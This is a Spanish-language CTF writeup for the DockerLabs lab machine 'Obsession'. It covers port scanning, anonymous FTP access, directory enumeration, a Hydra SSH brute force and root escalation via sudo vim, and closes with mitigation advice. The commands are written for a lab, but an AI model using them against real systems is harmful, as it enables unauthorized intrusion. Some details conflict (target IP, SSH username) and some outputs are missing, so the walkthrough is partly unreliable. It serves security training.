


| Plataforma          | Docker Labs |
| ------------------- | ----------- |
| Dificultad          | Muy Fácil   |
| IP de la Máquina    | 172.17.0.3  |
| Fecha de resolución | 03/10/2026  |
# 📑 WRITEUP: OBSESSION

> ℹ️ ****RESUMEN****
> - **IP Objetivo:** `172.17.0.3`
> - **Sistema Operativo:** Linux 🐧
> - **Descripción:** Enumeración de rutas en web, y hacking de protocolos de red, principalmente SSH y FTP. 🔑
> - **Privilegios Obtenidos:** `root` 👑

---

## 🎯 FASE 1: RECONOCIMIENTO Y ENUMERACIÓN

### 💻 Conectividad Inicial
Determinamos el Sistema Operativo analizando el Time To Live (TTL) mediante un paquete ICMP:
```bash
ping -c 1 172.17.0.3
```


* **Diagnóstico:** TTL = `64`. Confirmamos de forma directa un entorno **Linux**.

### 🔍 Mapeo de Puertos y Servicios
Lanzamos un escaneo con **Nmap** para descubrir los vectores de ataque expuestos.


| Puerto   | Servicio | Versión Detectada   | Estado / Nota                          |
| :------- | :------- | :------------------ | :------------------------------------- |
| `21/TCP` | FTP      | **vsftpd 3.0.5**    | 📂 Permite Login Anónimo (`anonymous`) |
| `22/TCP` | SSH      | OpenSSH 9.6p1       | 🔐 Vector potencial de acceso inicial  |
| `80/TCP` | HTTP     | Apache httpd 2.4.58 | 🟢 Servidor Web Activo                 |

#### Comando de Nmap utilizado:
```bash
sudo nmap -p- -sS -sV --min-rate 5000 -n -Pn --open 172.17.0.3
```

---

## ⚡ FASE 2: EXPLOTACIÓN (ACCESO INICIAL)

### 📂 Intrusión Inicial vía FTP
Al ingresar de manera anónima al servidor FTP (`anonymous:Gus`), encontramos archivos de notas de uso interno del equipo técnico (ej. `chat-gonza` y `pendientes`). 


#### Comandos utilizados para la conexión y extracción de archivos:
```bash
ftp 172.17.0.3
#Luego de establecer la conexión, listamos el contenido:
ls
#Terminamos por extraer los archivos encontrados con:
get chat-gonza.txt
get pendientes.txt
```

Al descargarlos y leerlos con el comando `cat` pudimos encontrar:
1. Una lista de posibles **nombres de usuario** válidos del sistema.
2. Información relevante como contexto para la posterior enumeración de privilegios locales


---
## 🔍 FASE 4: ENUMERACIÓN DEL SERVICIO WEB

Se utilizó WhatWeb para identificar las tecnologías utilizadas por el servidor:

```bash
whatweb http://172.17.0.2
```


> ℹ️ ****Resultados relevantes****
> - **Apache[2.4.58]**
> - **Ubuntu Linux**
> - **HTML5**
> - **Title[Russoski Coaching]**
> - **Email[russoski@dockerlabs.es]**

Posteriormente se realizó enumeración de directorios con:

```bash
gobuster dir -u http://172.17.0.3/ \
-w /usr/share/wordlists/dirb/common.txt
```

Se identificaron:

| Nombre          | Status |
| :-------------- | :----- |
| `htpasswd`      | 403    |
| `htacces`       | 403    |
| `backup`        | 301    |
| `important`     | 301    |
| `index.html`    | 200    |
| `server-status` | 403    |


###  🔍 Busqueda del directorio BUCKUP

Ingresamos en la Web mediante http://172.17.0.3/backup/ y encontramos **backup.txt**


Y dentro del archivo encontramos el siguiente texto:


### 🔑 Ataque de Fuerza Bruta (SSH)
Cruzando los datos obtenidos en la enumeración web en el directorio `/backup` y los archivos descargados del FTP, procedemos a realizar un ataque dirigido por diccionario empleando **Hydra** contra el puerto 22:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 50 -I
```


> ✅ ****Credenciales Válidas Encontradas****
> - **Usuario:** `russoski`
> - **Contraseña:** `iloveme` 

Para finalizar nos conectamos de forma directa usando la consola de comandos de SSH:
```bash
ssh russell@172.17.0.3
```


---

## 👑 FASE 5: ESCALADA DE PRIVILEGIOS

Una vez dentro ejecutamos el comando `sudo -l` y el resultado relevante fue:


Esto significa que el usuario `russoski` podía ejecutar `Vim` como `root` sin introducir una contraseña

Vim dispone de una funcionalidad que permite ejecutar comandos del sistema.

Se aprovechó el permiso identificado mediante sudo:

```bash
sudo /usr/bin/vim -c ':!/bin/bash'
```



> ✅ ****MÁQUINA COMPLETADA****
> Logramos comprometer de forma exitosa el entorno obteniendo una terminal interactiva persistente bajo los máximos privilegios de **`root`**.

---

## 🛠️ FASE 6: RECOMENDACIONES DE MITIGACIÓN

# FTP
 1. Deshabilitar el acceso anónimo cuando no sea estrictamente necesario.
 2. Evitar almacenar información sensible en directorios FTP públicos.
 3. Revisar periódicamente los permisos de los archivos expuestos.

# SERVIDOR WEB
 
1. Deshabilitar el listado de directorios.
2. Evitar publicar archivos de backup o información interna.
3. Revisar comentarios HTML que puedan revelar información sobre la infraestructura.
4. Evitar exponer nombres de usuarios innecesariamente.

# Autenticación SSH

1. Utilizar contraseñas largas y aleatorias.
2. Evitar contraseñas presentes en diccionarios públicos.
3. Utilizar autenticación mediante claves SSH cuando sea posible.
4. Implementar mecanismos de protección frente a ataques de fuerza bruta.

# Escalada a root por sudo sobre Vim

1. Retirar Vim de sudoers; si se necesita edición privilegiada, usar herramientas acotadas como sudoedit.